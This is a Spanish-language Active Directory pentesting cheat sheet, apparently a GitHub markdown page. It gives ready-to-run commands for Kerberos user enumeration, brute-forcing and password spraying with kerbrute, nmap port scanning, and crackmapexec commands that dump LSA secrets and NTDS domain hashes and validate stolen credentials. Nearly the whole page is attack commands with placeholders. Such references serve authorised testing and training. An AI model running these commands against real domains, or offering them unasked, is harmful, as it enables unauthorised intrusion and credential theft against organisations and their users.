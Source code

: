 ## Kerbrute

Mediante una lista de usuarios como pueden ser las de **SecLists** podemos ver usuarios válidos a nivel de dominio gracias a kerberos:

```shell
kerbrute userenum <USERLIST> --dc <HOSTNAME>.<DOMINIO> -d <DOMINIO>
```

Puede haber veces que un usuario tenga de contraseña su mismo nombre de usuario:

```shell
kerbrute bruteuser <USERLIST> --dc <HOSTNAME>.<DOMINIO> -d <DOMINIO> <USUARIO> 
```

Puede haber usuarios que tengan las mismas contraseñas:

```shell
./kerbrute passwordspray -d <DOMINIO> <LISTA_DE_USUARIOS> '<CONTRASEÑA>'
```
## Nmap

Esto está más claro que el agua:

```shell
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
extractPorts allPorts
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```
## SMB

### CrackMapExec

Podemos usar `crackmapexec` para enumerar los equipos del dominio y si tienen el **SMB** firmado:

```shell
crackmapexec smb <IP>/24
```

Otra cosa interesante es que si tenemos credenciales de un usuario que pertenece al grupo **Administradores** podemos dumpear el **LSA** o el **NTDS**.

Aquí el **LSA**, el cuál nos puede dar la contraseña de Administrador en texto claro:

```shell
crackmapexec smb <IP> -u '<USUARIO>' -p '<CONTRASEÑA>' --lsa
```

Y aquí el **NTDS** que nos da  todos los hashes del dominio:

```shell
crackmapexec smb <IP> -u '<USUARIO>' -p '<CONTRASEÑA>' --ntds vss
```

Con `crackmapexec` también podemos comprobar credenciales válidas por servicios ya sean **WinRM** o **SMB**:

```shell
crackmapexec winrm/smb <IP> -u '<USUARIO>' -p '<CONTRASEÑA>'
```
